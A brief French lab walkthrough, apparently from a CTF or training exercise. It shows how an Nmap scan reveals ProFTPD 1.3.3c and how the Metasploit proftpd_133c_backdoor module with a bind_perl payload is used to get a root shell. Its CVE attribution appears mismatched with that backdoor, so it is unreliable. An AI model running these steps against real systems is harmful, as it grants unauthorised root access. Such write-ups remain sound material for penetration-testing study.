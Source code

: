 Lors d'un scan NMAP une version FTP nommé ProFTPD 1.3.3c est découverte qui est vulnérable à la CVE-2010-4221.

On y accède via MSFCONSOLE
msfconsole -q

On cherche l'exploit
search ProFTPD 1.3.3c

Puis on choisie la UNIX/FTP/PROFTPD_133c_backdoor

On SET le PAYLOADS avec le cmd/unix/bind_perl
On ajoute le RHOSTS le LPORT

Puis on run l'exploit qui nous passe directement en Root sur la machine